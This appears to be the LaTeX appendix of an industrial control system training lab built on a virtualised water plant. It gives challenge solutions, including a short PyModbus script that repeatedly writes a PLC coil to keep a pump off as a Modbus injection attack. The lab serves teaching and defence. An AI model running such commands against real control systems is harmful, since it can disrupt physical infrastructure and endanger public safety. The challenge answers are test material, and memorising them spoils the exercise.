 \documentclass[12pt]{extarticle}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
\newcommand{\ben}{\begin{enumerate}}
\newcommand{\een}{\end{enumerate}}
\newcounter{next}
\newcounter{prev}
\begin{document}
\pagebreak
{}
\begin{slide}{Appendix}{\hyperref[slide \theprev]{\textless}}
	\begin{instructionblock}
		\ben
		\item Solutions to challenges
		\item Network Diagram
		\item Setup details
		\item Change log
		\item References
		\een
	\end{instructionblock}
\end{slide}
\pagebreak
{}
\textbf{Solutions to Challenges}\\
\ben
\item \textbf{Challenge: Passive Service Identification}\\
Open the packet capture found in "\textit{Desktop/Vuln\ Assessment}" with Wireshark on the Kali machine. By understanding that the SCADA machine will have a master relationship with the PLCs it should be obvious that the SCADA will be initiating communication with both PLCs. However, the PLCs will NOT be communicating with each other. This can be confirmed if the port "8080" is checked on the machines. The PLCs and SCADA have a web interface on these ports.
\item \textbf{Challenge: MODBUS Injection Attack}\\
This challenge can be easily solved by running a script using PyModbus. An example is shown below: \\
\begin{lstlisting}
#!/usr/bin/env python
from pymodbus.client.sync import ModbusTcpClient
client = ModbusTcpClient('192.168.10.9')
while True:
	client.write_coil(2,0) #keep the output pump off
client.close()
\end{lstlisting}
\een 

\pagebreak
\noindent
\textbf{Network Diagram}\\
This tutorial utilizes a virtualized ICS training environment called: vWaterLab. Here is the configuration of this environment for this lab. \\
\vspace*{3cm}
\begin{center}
	\begin{figure}[H]
		\centering
		\texttt{[image: "Figures/vWaterLab-Implementation".png]}
		\label{fig:netDiagram}
	\end{figure}
\end{center}
\end{document}
